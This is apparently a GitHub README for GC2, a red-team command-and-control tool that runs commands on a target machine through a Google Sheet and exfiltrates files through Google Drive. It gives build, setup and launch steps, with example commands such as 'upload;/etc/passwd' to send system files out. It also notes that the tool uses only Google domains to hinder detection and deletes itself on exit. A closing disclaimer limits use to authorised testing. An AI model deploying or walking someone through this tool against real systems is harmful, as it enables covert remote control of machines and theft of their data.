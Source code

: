 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Build executable**
 
    ```bash
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Start the C2**

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)
